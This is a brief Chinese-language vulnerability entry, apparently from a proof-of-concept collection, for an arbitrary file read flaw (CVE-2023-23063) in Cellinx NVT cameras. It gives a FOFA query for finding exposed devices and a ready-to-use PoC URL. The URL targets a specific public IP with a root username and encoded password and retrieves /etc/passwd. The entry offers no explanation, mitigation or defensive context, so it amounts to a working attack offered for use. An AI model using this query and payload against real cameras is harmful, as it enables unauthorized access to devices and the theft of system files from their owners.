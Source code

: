 # Cellinx NVT 摄像机 GetFileContent.cgi 任意文件读取漏洞 （CVE-2023-23063）

    ## fofa

```
body="local/NVT-string.js"
```

## poc

```
http://1.222.228.4/cgi-bin/GetFileContent.cgi?USER=root&PWD=D1D1D1D1D1D1D1D1D1D1D1D1A2A2B0A1D1D1D1D1D1D1D1D1D1D1D1D1D1D1B8D1&PATH=/etc/passwd&_=1672577046605
```
